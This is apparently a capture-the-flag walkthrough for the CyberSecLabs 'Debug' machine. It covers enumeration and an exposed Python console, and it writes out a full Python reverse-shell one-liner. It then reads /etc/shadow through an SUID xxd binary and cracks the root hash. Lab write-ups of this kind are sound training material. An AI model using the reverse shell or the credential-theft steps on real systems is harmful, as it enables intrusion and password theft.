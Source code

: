 ```yaml
---
layout: page
title: Debug - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/deployable.html
---
```


# Debug - CyberSecLabs
----



First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.3`

![image](https://user-images.githubusercontent.com/50459517/109021751-cb156300-7680-11eb-90a4-873c885cfa6f.png)

Looks like we only have 2 ports open, lets check out the web site on port 80

![image](https://user-images.githubusercontent.com/50459517/109021814-d8cae880-7680-11eb-9c6f-08bb45af8d35.png)

Seems like we have just a basic web site here, lets enumerate for directories with **dirsearch**

![image](https://user-images.githubusercontent.com/50459517/109021881-e84a3180-7680-11eb-8f33-18056eb700fb.png)

A couple of these such as /contact and /blog can be seen from the main page, however /console looks interesting.  Lets go there and see what we got.

![image](https://user-images.githubusercontent.com/50459517/109021930-f5672080-7680-11eb-8aa9-371eb8d6d09c.png)

Looks like we have an interactive console on the website that we can execute python code on.  I tried a simple **print("hello world")** which worked successfully.  I then executed the following to test and see if we was executing code straight from the server and make sure this wasn't some kind of rabbit hole.

![image](https://user-images.githubusercontent.com/50459517/109021975-0021b580-7681-11eb-875f-7c211ffc4659.png)

This looks good.  Since we are executing python code from the server, we can execute a python reverse shell one liner like the following to get a reverse shell..

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

If we start a netcat listener on out machine and execute this, we get a shell as the user **megan**

![image](https://user-images.githubusercontent.com/50459517/109022222-3eb77000-7681-11eb-957a-26b53cd72042.png)

Now lets copy **LinPEAS** to the machine and see what we can find.

![image](https://user-images.githubusercontent.com/50459517/109022265-48d96e80-7681-11eb-8f49-b708062b16ea.png)

We see an interesting SUID binary that we may be able to abuse.  Lets look at **GTFOBins** and see what we can find.

![image](https://user-images.githubusercontent.com/50459517/109022317-52fb6d00-7681-11eb-93aa-84098690185d.png)

Looks like we may be able to abuse xxd to read files we don't have permission too.  Lets see if we can read the contents of **/etc/shadow**

![image](https://user-images.githubusercontent.com/50459517/109022368-5ee72f00-7681-11eb-8cf7-fdb06499cf3d.png)

It worked!  Lets copy the root hash and run it through john to see if we can crack it.

![image](https://user-images.githubusercontent.com/50459517/109022423-6a3a5a80-7681-11eb-84a2-37ac87a760e0.png)

Looks like we have a password!  Now we can login and have full root access to the machine!

![image](https://user-images.githubusercontent.com/50459517/109022462-732b2c00-7681-11eb-95db-806ca283ee01.png)
